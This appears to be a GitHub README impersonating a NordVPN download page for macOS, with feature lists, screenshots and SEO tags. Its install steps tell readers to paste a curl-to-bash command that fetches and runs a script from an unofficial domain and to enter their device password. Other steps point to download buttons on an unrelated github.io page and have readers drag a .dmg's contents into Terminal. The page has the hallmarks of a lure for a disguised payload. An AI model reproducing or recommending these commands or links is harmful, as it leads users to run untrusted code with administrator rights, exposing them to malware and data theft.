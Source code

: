 # 🛡️ NordVPN — Secure & Fast VPN for macOS

**NordVPN** is a leading VPN service designed to provide macOS users with secure, private, and fast internet access. With NordVPN, you can encrypt your online traffic, unblock geo-restricted content, and protect your privacy on MacBook, iMac, and other Apple devices.

Optimized for macOS and Apple Silicon, NordVPN offers a seamless and reliable experience with thousands of servers worldwide.

---

## ✅ Download NordVPN for macOS  
[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](https://paw-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛡️ What is NordVPN?

NordVPN encrypts your internet connection and hides your IP address to secure your data from hackers, ISPs, and government surveillance. It provides fast streaming, safe browsing on public Wi-Fi, and easy access to global content with its extensive server network.

Fully compatible with the latest macOS versions and Apple Silicon chips, NordVPN ensures privacy without compromising speed.

---

## ✨ Features

- 🔒 Military-grade AES-256 encryption  
- 🌍 Access to 5,000+ servers worldwide  
- ⚡ Ultra-fast and reliable connection speeds  
- 🛡 CyberSec technology for ad and malware blocking  
- 🖥 Native app optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic Kill Switch to protect your IP if VPN drops  
- 🌐 Support for split tunneling and custom DNS  
- 🔐 No-logs policy with audited privacy practices  

---

## 💡 Why Use NordVPN?

- 🔐 Keep your internet activity private and secure  
- 🚀 Stream and browse without restrictions  
- 🧩 Easy-to-use interface tailored for Mac users  
- 🛡 Protect your data on public Wi-Fi networks  
- 🌎 Connect to servers worldwide for best performance  

---

[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](https://paw-download-mac.github.io/.github)

---



## 🖼 Preview

![NordVPN Screenshot 1](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
![NordVPN Screenshot 2](https://www.security.org/app/uploads/2023/12/NordVPN-connected-to-Australia.png)

---

## 📌 Tags

nordvpn mac  
nordvpn download mac  
nordvpn mac download  
nordvpn download for mac  
download nordvpn mac  
nordvpn on mac  
mac nordvpn  
nordvpn osx  
nordvpn macos  
nord for mac  
nordvpn mac app  
nordvpn for mac download  
vpn mac  
best vpn for mac  
mac vpn software  
apple silicon vpn  
macbook vpn app  
secure vpn mac  
fast vpn mac  
privacy vpn mac  
vpn for macbook pro  
